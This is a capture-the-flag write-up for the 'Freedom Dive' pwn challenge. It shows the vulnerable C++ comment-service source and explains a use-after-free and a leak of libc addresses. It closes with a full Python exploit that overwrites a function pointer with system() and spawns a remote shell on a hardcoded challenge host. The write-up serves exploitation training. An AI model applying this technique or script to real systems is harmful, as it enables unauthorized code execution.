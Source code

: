 ## [Pwn] Freedom Dive (250)

**freedom_dive.cpp**
```c++
// Mitigation : ASLR, NX, SSP
// compile : g++ -fPIC -fstack-protector-all --param ssp-buffer-size=4 -o freedom_dive freedom_dive.cpp -m32

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef class userProfile {
public:
	char username[36];
	char comment[216];
	void (*cleanMemory)(void *);
	void init(){
		cleanMemory = free;
	}
} Profile;

void welcome();
void echoService();
void displayMenu();
void setProfile(Profile *);
void showProfile(Profile *);
void modifyProfile(Profile *);
void deleteProfile(Profile *);
void quit(Profile *);

int flag;

int main(int argc, char *argv[])
{
	setvbuf(stdout, 0, 2, 0);
	char name[12] = {0,};
	puts("[*] Please input your name");
	read(0, name, 10);
	welcome();
	flag = 0;
	Profile *p;
	unsigned int sel;
	while(true)
	{
		displayMenu();
		scanf("%d", &sel);
		switch(sel){
			case 0:
				echoService();
				break;
			case 1:
				if(flag == 0) p = (Profile *)malloc(256);
				setProfile(p);
				break;
			case 2:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				showProfile(p);
				break;
			case 3:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				modifyProfile(p);
				break;
			case 4:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				deleteProfile(p);
				break;
			case 5:
				quit(p);
				break;
			default:
				puts("[*] No such command!!");
				break;
		}
	}
}

void welcome(){
	puts("\n   ============== Comment Service ==============");
	puts("   Welcome to my comment service!");
	puts("   It's wonderful service, but incompleted :(");
	puts("   So, It allows you use only one account.");
	puts("   Please be fun with my service!");
	puts("   =============================================\n");
}

void echoService(){
	char *echoMessage = (char *)malloc(256);
	puts("[*] Input Message : ");
	read(0, echoMessage, 256);
	puts("[*] Echo");
	puts(echoMessage);
	free(echoMessage);
}

void displayMenu(){
	puts("========== Menu ==========");
	puts("0. Echo service");
	puts("1. Set Profile");
	puts("2. Show Profile");
	puts("3. Modify Profile");
	puts("4. Delete Profile");
	puts("5. Exit");
	puts("[Select menu]");
}

void setProfile(Profile *pro){
	pro->init();
	puts("[*] Input Name");
	read(0, pro->username, 36);
	puts("[*] Input Description");
	read(0, pro->comment, 216);
	flag++;
}

void showProfile(Profile *pro){
	puts("[username]");
	puts(pro->username);
	puts("[comment]");
	puts(pro->comment);
}

void modifyProfile(Profile *pro){
	int num;
	showProfile(pro);
	puts("============================");
	puts("[*] Input name");
	num = read(0, pro->username, 36);
	pro->username[num] = '\0';
	puts("[*] Input Description");
	num = read(0, pro->comment, 216);
	pro->comment[num] = '\0';
	puts("============================");
}

void deleteProfile(Profile *pro){
	pro->cleanMemory(pro);
	flag--;
}

void quit(Profile *pro){
	exit(0);
}
```

The vulnerability can be found easily.
You can easily find the leak vulnerability, because all of string input in **setProfile** use **read** function and it exactly same with name and comment's size.  
Because the variable **flag** is checked whether it is 1 or not, you can allocate memory two times or more.  
Furthermore, function **deleteProfile()** free the memory and decrease flag only 1.  
In addition, **echoService** in menu 0 use Memory exactly 256 bytes which is same with **Profile** class's size.  
So, you can use **Use After Free Bug** by allocatiog twice and selecting menu 0, **echoService**.  

As the **deleteProfile()** calls the function pointer in the **Profile** class, you can overwrite it.
So, Exploit route is as follows.
`Menu 1 => Menu 1 => Menu 2(Leak) => Menu 4 => Menu 0 => Overwrite Pointer => Menu 4 (Trigger)`

You can find the offset between free and system using the leak vulnerability.
So you can overwrite the function pointer with system function's library address.


Exploit code is as follows.
```python
import telnetlib
from hackutil import *
from socket import *
from time import *

#========================
HOST = '45.55.163.13'
PORT = 9000
offset_free_system = 0x37d30
#========================

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((HOST, PORT))
 
print sock.recv(1024)
sock.send('5kyc1ad')
sock.recv(1024)

for i in range(2):
	sock.send('1\n')
	sleep(0.1)
	sock.recv(1024)

	sock.send('5kyc1ad_Dummy')
	sleep(0.1)
	sock.recv(1024)

	sock.send('A'*216) # For memory Leak - free() library function
	sleep(0.1)
	sock.recv(1024)

sock.send('2\n')
sleep(0.1)
sock.recv(1024)
data = sock.recv(2048)

free_lib = up32(data[data.find('A'*216)+216:data.find('A'*216)+220])[0]
system_lib = free_lib - offset_free_system
print "[*] Find free@lib : " + str(hex(free_lib))
print "[*] Offset [free - system] : " + str(hex(offset_free_system))
print "[*] Find system@lib : " + str(hex(system_lib))

sock.send('4\n')
sleep(0.1)
sock.recv(1024)

sock.send('0\n')
sleep(0.1)
sock.recv(1024)

payload = '/bin/sh\x00'+'A'*244+p32(system_lib)

sock.send(payload)
sleep(0.1)
print "[*] Payload injected : " + str(len(payload)) + " bytes"
sock.recv(1024)

sock.send('4\n')
print hexdump(sock.recv(1024))
print "=============== [*] Got the shell ==============="
t = telnetlib.Telnet()
t.sock = sock
t.interact()
```